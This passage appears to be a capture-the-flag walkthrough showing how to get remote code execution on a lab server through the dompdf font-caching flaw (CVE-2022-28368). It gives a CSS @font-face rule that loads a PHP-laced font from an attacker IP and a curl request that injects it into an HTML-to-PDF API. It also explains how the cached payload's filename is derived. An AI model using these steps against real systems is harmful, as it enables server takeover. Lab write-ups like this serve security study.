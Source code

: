 ```bash
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Producer                        : dompdf 1.2.0 + CPDF
Create Date                     : 2023:05:04 12:00:14+00:00
Modify Date                     : 2023:05:04 12:00:14+00:00
```

And this is vulnerable for Remote Code Execution via remote font installation

* https://positive.security/blog/dompdf-rce
* https://github.com/dompdf/dompdf/issues/2598
* [CVE-2022-28368](https://nvd.nist.gov/vuln/detail/CVE-2022-28368)
* Exploit -> https://github.com/positive-security/dompdf-rce

What happening in this exploit is, if attacker take a valid `.ttf` font file, Add append PHP code in it, store it as 'exploit_font.php' and include it via an injected CSS file, "dompdf" cached the font file and if attacker accessed that cached cached font file it trigger that PHP code.

* Detailed Explanation in this blog -> https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf

**Exploit**

Generate TTF file with PHP code.
* TTF file from exploit POC -> https://github.com/positive-security/dompdf-rce/raw/main/exploit/exploit_font.php
* Or we can use a valid font file from "[dompdf fonts](https://github.com/dompdf/dompdf/tree/master/lib/fonts)" and append PHP code in the end.

Create `exploit.css` file which includes that font from attacker's http server.
* Font file get cached on the server and removed after few minute. So, we need to change the "font-family" name to execute different code again immediately.

```css
@font-face {
    font-family:'exploitfont';
    src:url('http://10.10.14.34:8000/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

Host these files on a HTTP server
```bash
python -m http.server 8000
```

Send payload in `/api/html2pdf` POST request
```bash
curl -isX POST http://prd.m.rendering-api.interface.htb/api/html2pdf -d $'{"html": "<link rel=stylesheet href=\'http://10.10.14.34:8000/exploit.css\'>"}' -H "Content-Type: application/json"
```

Access cached file -

* Filename of the cached font file is deterministic and can be derived easily. It comprises of the font family, font style and md5 hash of the remote URL.
  * Filename -> `<font_family>+_+<font-style>+_+<md5_hash>+.+<file_extension>`
    * `md5_hash` is determined by the full url for the font file `http://[HOST]:[PORT]/<FILENAME>` -> `echo -n http://[HOST]:[PORT]/<FILENAME> | md5sum`
    * `font_family` name must be in all lowercase.
